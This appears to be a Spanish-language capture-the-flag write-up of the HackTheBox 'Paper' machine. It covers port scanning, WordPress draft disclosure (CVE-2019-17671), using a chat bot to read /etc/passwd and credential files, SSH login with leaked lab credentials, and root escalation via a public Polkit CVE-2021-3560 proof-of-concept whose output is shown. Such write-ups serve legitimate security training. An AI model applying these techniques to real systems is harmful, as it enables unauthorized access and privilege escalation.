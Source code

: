 ```yaml
---
title: HackTheBox - Paper
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress Drafts (CVE-2019-17671)', 'ByPass Bot Restriction', 'Polkit (CVE-2021-3560)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Paper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Paper Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Wordpress Drafts (CVE-2019-17671), ByPass Bot Restriction, Polkit (CVE-2021-3560)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Paper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Paper/02-versions.png)

* Para conocer más del sistema web usaremos **whatweb**

    ```bash
    ❯ whatweb 10.10.11.143
    http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
    ```
    > Lo más relevante de esta información es ver un host **office.paper**, así que lo añadimos al /etc/hosts

c. Al visitar ese nuevo host veremos un Wordpress y al ir investigando veremos este comentario

![](/assets/images/HTB/Easy/Paper/03-comment.png)


> El comentario de arriba, menciona algo sobre la existencia de una secreto en los **drafts** (borradores)
{: .prompt-info }

* Al investigar sobre alguna vulnerabilidad asociada a esto llegamos a [CVE-2019-17671](https://www.exploit-db.com/exploits/47690), aquí nos dicen que inyectando un sentencia podemos llegar a ver borradores

    ![](/assets/images/HTB/Easy/Paper/04-draft.png)

* Añadimos el nuevo dominio al fichero /etc/hosts. Lo visitamos y registramos una cuenta

d. Leyendo mensajes anteriores de este chat detectamos un bot **recyclops**

![](/assets/images/HTB/Easy/Paper/05-bot.png)

* La funcionalidad más relevante es la de leer y listar ficheros. Para interactuar con el bot le enviamos mensajes directos

![](/assets/images/HTB/Easy/Paper/06-chat.png)

e. Leemos el archivo /etc/passwd para ver los usuarios en el sistema. Después, vemos archivos que puedan tener credenciales

![](/assets/images/HTB/Easy/Paper/08-passwd.png)

![](/assets/images/HTB/Easy/Paper/09-file.png)

* Estas credenciales son válidas para el servicio ssh 

    ```bash
    ❯ ssh dwight@10.10.11.143
    dwight@10.10.11.143's password: Queenofblad3s!23
    [dwight@paper ~]$
    ```


### Escalada de Privilegios 💹

a. En este [articulo](https://vk9-sec.com/cve-2021-3560local-privilege-escalation-polkit-0-105-26-0-117-2/) mencionan sobre la escalación de privilegios vía **Polkit**

* Copiamos el fichero [poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) y lo guardamos en la máquina víctima

    ```bash
    [dwight@paper ~]$ ./poc.sh 

    [!] Username set as : secnigma
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was succesful!
    [!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
    [dwight@paper ~]$ su secnigma
    Password: secnigmaftw
    [secnigma@paper dwight]$ sudo bash
    [sudo] password for secnigma: secnigmaftw
    [root@paper dwight]#
    ```

    > Debemos ejecutar este script varias veces hasta que funcione.
    {: .prompt-tip }